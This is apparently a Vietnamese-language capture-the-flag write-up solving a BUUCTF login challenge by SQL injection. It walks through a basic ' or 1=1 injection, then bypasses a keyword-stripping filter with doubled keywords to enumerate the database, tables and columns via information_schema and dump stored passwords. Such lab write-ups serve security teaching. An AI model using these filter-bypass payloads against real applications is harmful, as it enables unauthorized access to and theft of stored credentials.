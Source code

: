 [image](https://github.com/Llam-a/BUUCTF/assets/115911041/7374a48a-8fb4-4505-82ac-ef5473117bf1)

Ta có form challenge. Mình sẽ thử inject cơ bản 

`user: 1' or 1=1-- -

pass: 1' or 1=1-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/a1fdb887-10a1-48d8-bb17-ca4c3d2b11df)

Nếu các bạn thấy output chỗ pass đã đổi `or` thành null là do hàm `preg_repalce()` hoặc hàm tương tự. Sau đó mình có test với `union,where và select` đều bị thay thế. Nên ta sẽ làm cho sau khi xóa chữ or thì nó sẽ trở thành or, tương tự như select, where và union.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/15017af1-56d2-4dad-b4cd-e3e0b009bf60)

Ta có kết quả

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/07fd59ab-b30e-46f3-9398-437fdacaca14)

Và giờ ta sẽ check cột `admin' anandd 1=2 uniunionon selselectect 1,2,3-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/799672a3-552a-4dda-a180-6315eebe097a)

Vậy là có lỗi ở cột 2 và 3. Tiếp tục khac thác database, table, column, data.

`admin' anandd 1=2 uniunionon selselectect 1,2,database()-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f5f1fc0c-200f-4419-99c9-ca9834afe11c)

`admin' uunionnion sselectelect 1,2,group_concat(table_name) ffromrom infoorrmation_schema.tables wwherehere table_schema=database()-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/60af18c6-3c6c-4b63-a33f-374a275205b6)

Ta có 2 table. Mình sẽ xem table của `b4bsql`

`admin' uunionnion sselectelect 1,2,group_concat(column_name) ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ed6fb617-f2f0-425a-94e3-abdac6b5392b)

Kết quả cho ra 3 cột. Ta xem data trong password

`admin' uunionnion sselectelecte 1,2,group_concat(passwoorrd) ffromrom b4bsql-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4153ea2d-8753-4ec6-8287-0e74dcfafd90)

